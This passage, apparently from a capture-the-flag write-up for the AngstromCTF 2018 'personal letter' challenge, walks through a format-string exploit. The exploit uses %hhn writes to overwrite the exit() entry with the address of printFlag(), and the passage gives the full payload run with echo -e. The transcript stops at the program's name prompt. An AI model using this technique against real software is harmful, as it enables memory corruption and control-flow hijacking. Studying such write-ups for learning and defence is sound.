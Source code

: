 ![exit_address3](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/personal%20letter%20(160)/src/exit_address3.PNG)

![exit_address4](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/personal%20letter%20(160)/src/exit_address4.PNG)

It is stored like this c8 a0 04 08, so we need to rewrite first 2 bytes to get 2b 87 04 08 and this address will be printFlag() function's address and instead of exit() function the program will call printFlag().

Now we know what we have got to do. First part of input will be like this "\x30\xa0\x04\x08\x31\xa0\x04\x08". Those are addresses in memory we will rewrite. Second part must contain more interesting data. We must write something like this "%(digit1)x%(digit2)\$hhn%(digit3)x%(digit4)\$hhn".

First we need to find digit2 and digit4. Those are indexes of digits we will write to addresses. So how will we find them? We will debug the program with stop point on the printf() function call. And then we will inspect printCard() function's frame of stack to find them.

![printfStopPoint](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/personal%20letter%20(160)/src/printfStopPoint.PNG)

![stackView](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/personal%20letter%20(160)/src/stackView.PNG)

![inputStackAddress](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/personal%20letter%20(160)/src/inputStackAddress.PNG)

Here on the screenshots we see that our input are stored at indexes 26 and 27 in the printCard() stack. Now we need to find digit1 and digit3. In the stack are stored 16 bytes: "| Dear, " - it's first 8 and our input will be 8 bytes too. So now we have 16 bytes. It's 10h, and we need 2bh, so the digit1 will be 2bh-10h=1bh=27. Next, we will need 87h, but we have 2b. digit3 will be 87h-2bh=5ch=92. Now we have our input: \x30\xa0\x04\x08\x31\xa0\x04\x08%27x%26\$hhn%92x%27\$hhn. But we can't write bytes from keyboard so I will use echo -e. Let's try it.
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># echo -e &quot;\x30\xa0\x04\x08\x31\xa0\x04\x08%27x%26\$hhn%92x%27\$hhn&quot; | ./personal_letter32
Welcome to the personal letter program!
Give us your name, and we will generate a letter just for you!
Enter Name (100 Chars max): 
________________________________________